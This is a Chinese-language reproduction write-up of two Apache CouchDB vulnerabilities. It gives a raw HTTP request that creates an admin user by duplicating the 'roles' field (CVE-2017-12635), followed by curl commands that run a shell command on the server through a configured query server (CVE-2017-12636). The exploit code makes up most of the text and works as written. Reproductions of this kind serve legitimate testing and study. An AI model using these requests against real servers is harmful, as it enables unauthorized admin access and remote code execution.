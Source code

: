 ![5cfe35326689f17529](https://i.loli.net/2019/06/10/5cfe35326689f17529.png)

重复发送roles参数，成功绕过限制，创建用户

```textile
PUT /_users/org.couchdb.user:username HTTP/1.1

Host: your-ip:5984

Accept: */*

Accept-Language: en

User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)

Connection: close

Content-Type: application/json

Content-Length: 111

{

  "type": "user",

  "name": "username",

  "roles": ["_admin"],

  "roles":[],

  "password": "password"
}
```

成功创建用户

![5cfe365ebd34e80865](https://i.loli.net/2019/06/10/5cfe365ebd34e80865.png)

登陆成功 

![5cfe364f25d8a64339](https://i.loli.net/2019/06/10/5cfe364f25d8a64339.png)

## Couchdb 任意命令执行漏洞（CVE-2017-12636）

### 漏洞复现：

#### Version 1.6.0

在CVE-2017-12635的基础上进行任意命令执行操作

```textile
curl -X PUT 'http://co0ontty:password@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'

curl -X PUT 'http://co0ontty:password@your-ip:5984/vultest'
curl -X PUT 'http://co0ontty:password@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://co0ontty:password@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```
